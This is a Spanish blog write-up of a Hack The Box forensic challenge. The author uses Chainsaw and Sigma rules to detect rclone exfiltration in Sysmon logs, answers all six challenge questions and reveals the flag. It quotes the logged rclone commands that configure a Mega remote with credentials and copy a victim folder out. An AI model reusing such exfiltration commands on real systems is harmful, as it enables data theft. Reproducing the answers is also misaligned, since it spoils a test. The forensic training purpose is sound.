 ```yaml
---
layout: single
title: Packet Cyclone - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el quinto desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad fácil y consiste en analizar un archivo de registro de eventos de Windows (.evtx) generado por el servicio Sysmon. En este archivo se registra la ejecución sospechosa del software Rclone a través de la línea de comandos en un equipo con Windows. Nuestra tarea consiste en responder todas las preguntas solicitadas para que la plataforma de HTB nos entregue la flag del desafío."
date: 2023-03-22
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - chainsaw
  - sigma rules
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** easy

## Enunciado

_El amigo y socio de Pandora, Wade, es quien dirige la investigación sobre la ubicación de la reliquia. Recientemente, notó un tráfico extraño proveniente de su host. Eso lo llevó a creer que su host estaba comprometido. Después de una rápida investigación, se confirmó su temor. Pandora intenta ahora ver si el atacante provocó el tráfico sospechoso durante la fase de exfiltración. Pandora cree que el actor malicioso usó rclone para filtrar la investigación de Wade a la nube. Usando la herramienta llamada "chainsaw" y las reglas sigma provistas, ¿puede detectar el uso de rclone de los registros de eventos producidos por Sysmon? Para obtener la bandera, debe iniciar y conectarse al servicio docker y responder todas las preguntas correctamente._

## Archivos del desafio

Se nos entrega un archivo comprimido en formato `.zip`, que contiene una carpeta de registro de logs de Windows con 149 archivos `.evtx`, así como una segunda carpeta llamada `sigma_rules`, que contiene dos reglas sigma en formato `.yaml`. El objetivo de este desafío es utilizar la herramienta `chainsaw`, junto con las reglas sigma, para analizar todos los archivos `.evtx` de Windows y encontrar la ejecución sospechosa del software Rclone. Parece ser que este software ha sido utilizado para exfiltrar información de una computadora previamente comprometida.

La herramienta `chainsaw` esta disponible para `Linux` y `Windows` en su repositorio de [GitHub](https://github.com/WithSecureLabs/chainsaw).

En mi caso, utilizaré la versión para Linux de la herramienta `chainsaw`, y solo trabajaré con los registros presentes en el archivo `Microsoft-Windows-Sysmon Operational.evtx`. Seguiré esta arquitectura de archivos específica según lo indicado en el enunciado del desafío:
```
❯ tree
.
├── chainsaw
│   ├── chainsaw
│   ├── LICENCE
│   ├── mappings
│   │   ├── sigma-event-logs-all.yml
│   │   ├── sigma-event-logs-legacy.yml
│   │   └── sigma-mft-logs-all.yml
│   └── README.md
├── Logs
│   └── Microsoft-Windows-Sysmon%4Operational.evtx
└── sigma_rules
    ├── rclone_config_creation.yaml
    └── rclone_execution.yaml

5 directories, 9 files
```

## Chainsaw

Tal como se indica en su repositorio de GitHub, `Chainsaw` proporciona una potente capacidad de "primera respuesta" para identificar rápidamente amenazas dentro de los artefactos forenses de Windows, como los archivos `.evtx` ubicados en la ruta `C:\Windows\System32\winevt\Logs`. `Chainsaw` ofrece un método genérico y rápido para buscar palabras clave en los registros de eventos y detectar amenazas mediante la integración incorporada de las reglas de detección de Sigma y las reglas de detección personalizadas de `Chainsaw`.

En este caso, el desafío ya nos proporciona las reglas Sigma que utilizaremos, las cuales se encuentran en la carpeta `sigma_rules`. Al ejecutar la herramienta a través de la interfaz de línea de comandos (CLI), el comando se vería de la siguiente manera:
```
❯ ./chainsaw hunt ../Logs -s ../sigma_rules --mapping mappings/sigma-event-logs-all.yml
```

El comando anterior indica a la herramienta `Chainsaw` que se ejecute en modo `hunt` sobre todos los archivos dentro de la carpeta `Logs`. Luego, utiliza todas las reglas sigma proporcionadas en el desafío para la lógica de detección, y por último, utiliza el archivo `sigma-event-logs-all.yml` para el análisis de los registros.

Luego de ejecutar el comando, la salida se verá de la siguiente manera:
![](/assets/images/htb-cyber-apocalypse-packet-cyclone/chainsaw.png)

Y el detalle sería este:
```
CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI'
Company: https://rclone.org 
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v161.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D92B-63F8-B100-000000000900
ProcessId: 3820
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:07.336


CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v'
Company: https://rclone.org
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D935-63F8-B200-000000000900
ProcessId: 5116
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:17.516
```

Con toda la información anterior, ya podemos conectarnos al contenedor Docker de HTB y responder las siguientes preguntas.

# Preguntas

1. ¿Cuál es el correo electrónico del atacante utilizado para el proceso de exfiltración? (por ejemplo: nombre@email.com)
Si observamos los detalles encontrados por la herramienta `Chainsaw`, podemos ver que se ha ejecutado el siguiente comando a través de PowerShell:
```
rclone.exe config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI
```
- `Respuesta: majmeret@protonmail.com`

2. ¿Cuál es la contraseña del atacante utilizada para el proceso de exfiltración?
En el comando anterior, también se puede observar esta respuesta:

- `Respuesta: FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI`

3. ¿Cuál es el proveedor de almacenamiento en la nube que utiliza el atacante?
Esta respuesta la deduje por descarte, en un principio intenté encontrar alguna URL u otra pista que indicara el proveedor de nube, pero en realidad es tan simple como observar que en el comando anterior se menciona el servicio de Mega.

- `Respuesta: mega`

4. ¿Cuál es el ID del proceso utilizado por los atacantes para configurar su herramienta?
Al observar los detalles de las dos detecciones encontradas por Chainsaw, podemos identificar que la primera detección corresponde a la configuración y la segunda detección corresponde a la exfiltración. Por lo tanto, el ID de proceso de la configuración es 3820.

- `Respuesta: 3820`

5. ¿Cuál es el nombre de la carpeta que exfiltro el atacante? proporcionar la ruta completa.
Para responder a esta pregunta, debemos examinar el detalle de la segunda detección, que corresponde al proceso de exfiltración. En este caso, se ha ejecutado el siguiente comando a través de PowerShell:
```
"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v
```
- `Respuesta: C:\Users\Wade\Desktop\Relic_location`


6. ¿Cuál es el nombre de la carpeta a la que el atacante extrajo los archivos?
En el comando anterior, podemos observar que el destino es `remote:exfiltration`, lo que indica que el nombre de la carpeta es `exfiltration.`

- `Respuesta: exfiltration`

Luego de responder estas seis simples preguntas, el contenedor Docker de HTB nos proporcionará la flag.}

## Flag

**HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}**

